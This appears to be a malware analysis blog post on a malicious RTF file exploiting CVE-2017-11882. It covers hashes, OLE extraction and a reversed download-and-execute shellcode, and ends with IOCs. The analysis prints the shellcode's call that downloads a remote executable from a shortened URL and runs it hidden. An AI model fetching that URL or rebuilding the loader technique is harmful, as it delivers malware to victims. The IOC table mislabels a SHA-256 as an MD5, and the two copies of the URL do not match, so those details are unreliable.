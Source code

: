 ```yaml
---
title: RTF Exploit
date: 2025-08-30
categories:
  - Malware Analysis
  - Reports
tags:
  - cve-2017-11882
toc: "true"
---
```

The suspicious sample under analysis is an **RTF document** designed to embed and execute malicious OLE objects. As with any document-based malware, the first step is to calculate its hashes and collect metadata for identification.

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | RTF Document                                                     |
| **MD5**       | 2fd300bd01ea3d00ea59d4e1d47056a0                                 |
| **SHA-1**     | d8747407679055deee5bafaac281bdac52274da2                         |
| **SHA-256**   | 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762 |
| **File Size** | 1.02 MB (1065166 bytes)                                          |

Once submitted to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an embedded OLE exploit.

![virustotal.png](assets/img/posts/malware/rtf-malware/virustotal.png)

Static inspection confirmed that the RTF contained at least one **suspicious OLE object**. This hinted that the exploit would likely rely on embedded shellcode delivered via OLE streams.

### Extracting the OLE Object

We used **rtfobj.py** to scan the malicious RTF document and extract any embedded OLE streams:

```cmd
C:\Users\vboxuser\Desktop>python "C:\Users\vboxuser\Desktop\Tools\Documents
oletools-0.60.2\oletools\rtfobj.py" 
"C:\Users\vboxuser\Desktop\Master\Tarea3
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf" 
-s 0 -d C:\Users\vboxuser\Desktop\Master\Tarea3
```

The output revealed a malformed OLE object at offset `0x000FC3E7`, which was dumped as:

```
...rtf_object_000FC3E7.raw (md5: 2fe51e42ac2a4a52d1855e21620e9c6f)
```

![rtfobj.png](/assets/img/posts/malware/rtf-malware/rtfobj.png)

One check to **VirusTotal**, the sample showed a high detection ratio, flagged by multiple antivirus engines as containing an exploit for a 2017 CVE.

![virustotal-raw.png](assets/img/posts/malware/rtf-malware/virustotal-raw.png)

The details are the following:

| Field         | Value                                                            |
| ------------- | ---------------------------------------------------------------- |
| **File Type** | Data                                                             |
| **MD5**       | 2fe51e42ac2a4a52d1855e21620e9c6f                                 |
| **SHA-1**     | af8eda0e5881952b5828d143de1bd45ced8f8717                         |
| **SHA-256**   | 280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb |
| **File Size** | 1.34 KB (1372 bytes)                                             |
## Shellcode Analysis with `scdbg`

The extracted OLE object contained embedded shellcode. To better understand its behavior, we emulated the payload using **scdbg**.

Execution began at offset `0x7C` (VA `0x40107C`) with the following instructions:

```
40107C   42      inc edx
40107D   19F9    sbb ecx,edi
40107F   0BE1    or esp,ecx
401081   F8      clc
401082   793B    jns 0x4010BF
```

This sequence rearranges registers in preparation for deobfuscation.

During execution, the shellcode dynamically resolved several Windows APIs, a common tactic to avoid static detection. The following calls were observed:

- `GetProcAddress(ExpandEnvironmentStringsW)`
- `ExpandEnvironmentStringsW(%PUBLIC%\908.exe, dst=12fbd0, sz=104)`
- `LoadLibraryW("UrlMon")`
- `GetProcAddress(URLDownloadToFileW)`
- `URLDownloadToFileW("http://bit.ly/34vzFlU", "C:\Users\Public\908.exe")`
- `LoadLibraryW("oleaut32")` and `GetProcAddress(SysAllocString)`

![scdbg.png](/assets/img/posts/malware/rtf-malware/scdbg.png)

This confirms the shellcode’s functionality: it constructs a destination path in `%PUBLIC%`, downloads a remote executable from a shortened URL, and prepares it for execution.

## Reversing the Shellcode

To deepen the analysis, we manually reversed the shellcode to better understand its structure and techniques. As expected, the code follows the typical pattern of most download-and-execute shellcodes, but with some tricks to hinder analysis: it is position-independent and padded with junk instructions.

When loaded into **IDA**, some sections were misinterpreted as code or data. To fix this, we had to manually redefine certain areas, step through execution instruction by instruction, and set breakpoints until the flow became clear.

The shellcode can be divided into three main sections:

1. **Garbage padding** (`0x0000–0x007B` and `0x010E–0x02BB`)  
    Random bytes, `int 3`, `hlt`, and assorted `db`/`dw` instructions that IDA failed to properly disassemble. These do not execute if the **EIP** lands correctly.
    
2. **Executable junk & jump** (`0x007C–0x0108`)  
    Useless obfuscation loops and a final `jmp 0x02BC` redirecting execution to the real payload.
    
3. **Payload** (`0x02BC–0x0558`)  
    The real malicious logic: stack setup, manual API resolution, downloading an executable, and launching it in the background.
    

![peb.png](/assets/img/posts/malware/rtf-malware/peb.png)

Once the flow was reconstructed, we saw the shellcode walking the **PEB (`fs:[30h]`)** to locate `kernel32.dll`. From there, it invoked a custom implementation of `GetProcAddress` to resolve its APIs:

```
LoadLibraryW
ExpandEnvironmentStringsW
UrlDownloadToFileW
WinExec
ExitProcess
```

![sub498.png](/assets/img/posts/malware/rtf-malware/sub498.png)

The function responsible for string comparisons (`sub_498`) performed case-insensitive matching in wide-char, converting characters on the fly with a simple `xor ax, 0x20` whenever the character was between `'A'` and `'Z'`. This allowed the shellcode to reliably resolve function names without depending on exact casing.

Once the API resolution was complete, execution moved into the **download phase**. First, the destination path was constructed using `ExpandEnvironmentStringsW` as `%PUBLIC%\908.exe`. Next, the URL (`hxxp://bit.ly/34vzFU`) was pushed onto the stack in fragmented form, hidden across multiple `push` instructions. Finally, the shellcode invoked `UrlDownloadToFileW(NULL, url, destino, 0, NULL)` to retrieve the binary, proceeding only if the call returned `S_OK`.

If the download succeeded, the **execution phase** began: the binary was launched silently with `WinExec(destino, SW_HIDE)`, and the shellcode immediately terminated the current process with `ExitProcess(0)`.

Overall, more than half of the shellcode turned out to be padding and obfuscation, while the actual functionality resided in a compact position-independent loader. Its role was simple but effective: dynamically resolve APIs, construct the target path, download a remote executable, and execute it quietly before exiting. By setting the instruction pointer directly to `0x02BC`, analysts can skip all the junk code and observe the core payload in action. The main difficulty during reversing was correcting IDA’s misinterpretations caused by the interleaving of junk instructions and data, which required manual adjustments to accurately follow the control flow.

## Indicators of Compromise (IOCs)

The following IOCs were extracted from the RTF malware sample:

| Type               | Value                                                                       |
| ------------------ | --------------------------------------------------------------------------- |
| **MD5 (RTF)**      | `2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762`          |
| **OLE Object MD5** | `2fe51e42ac2a4a52d1855e21620e9c6f`                                          |
| **Dropped File**   | `%PUBLIC%\908.exe`                                                          |
| **Malicious URL**  | `hxxp://bit.ly/34vzFU`                                                      |

